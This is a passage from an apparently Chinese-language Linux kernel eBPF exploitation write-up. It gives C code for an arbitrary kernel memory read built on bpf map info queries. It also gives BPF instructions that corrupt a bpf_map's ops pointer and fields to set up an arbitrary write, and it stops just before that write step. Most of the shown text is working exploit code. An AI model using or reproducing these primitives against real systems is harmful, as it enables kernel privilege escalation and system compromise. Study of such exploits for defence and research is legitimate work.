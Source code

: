 ```c 
static uint32_t arbitrary_read32(uint64_t addr) {
    uint32_t read_info;

    ctrl_buf[0] = 0x2000000000 + 0x110;
    ctrl_buf[1] = 1;
    ctrl_buf[4] = addr - 0x58;

    bpf_update_elem(0, ctrl_buf, ctrl_mapfd, 0);
    bpf_update_elem(0, exp_buf, exp_mapfd, 0);
    execute();

    read_info = bpf_map_get_info_by_fd(0, exp_buf, exp_mapfd, info);
    return read_info;
}

static uint64_t arbitrary_read(uint64_t addr) {
    uint32_t addr_low = arbitrary_read32(addr);
    uint32_t addr_high = arbitrary_read32(addr + 0x4);
    return ((uint64_t)addr_high << 32) | addr_low;
}

static uint32_t bpf_map_get_info_by_fd(uint64_t key, void *value, int mapfd, void *info) {
    union bpf_attr attr = {
        .map_fd = mapfd,
        .key = (__u64)&key,
        .value = (__u64)value,
        .info.bpf_fd = mapfd,
        .info.info_len = 0x100,
        .info.info = (__u64)info,
    };
    syscall(__NR_bpf, BPF_OBJ_GET_INFO_BY_FD, &attr, sizeof(attr));
    return *(uint32_t *)((char *)info + 0x40);
}
```

接下来 Part 4 用于任意地址写前的准备：

```c 
// Part 4 (prepare for arbitrary write)
BPF_JMP_IMM(BPF_JNE, BPF_REG_8, 2, 4),          // if r8 != 2 goto +4 (exit(0))
BPF_STX_MEM(BPF_DW,BPF_REG_7,BPF_REG_0,0),      // *(u64 *)(r7) = r0
BPF_ST_MEM(BPF_W,BPF_REG_7,0x18,BPF_MAP_TYPE_STACK),    // *(u32 *)(r7 + 0x18) = BPF_MAP_TYPE_STACK
BPF_ST_MEM(BPF_W,BPF_REG_7,0x24,-1),                    // *(u32 *)(r7 + 0x24) = -1 max_entries
BPF_ST_MEM(BPF_W,BPF_REG_7,0x2c,0x0),                   // *(u32 *)(r7 + 0x2c) = 0 lock_off

BPF_MOV64_IMM(BPF_REG_0,0x0),                   // exit(0)
BPF_EXIT_INSN(),
```

这里将 Part 2 里算出来的 exp_buf 地址写到 `bpf_map` 开头，也就是 map_ops 的位置，所以我们创建一个函数指针数组将其内容修改为我们劫持后的函数表，修改其中 `map_push_elem` 为 `map_get_next_key`，再把内容复制到 map 中，作为 r0 参数传递进来。然后修改 `bpf_map` 的 `map_type`、`max_entries`、`spin_lock_off` 即可。接下来通过调用 `bpf_update_elem` 就可以实现任意地址写：
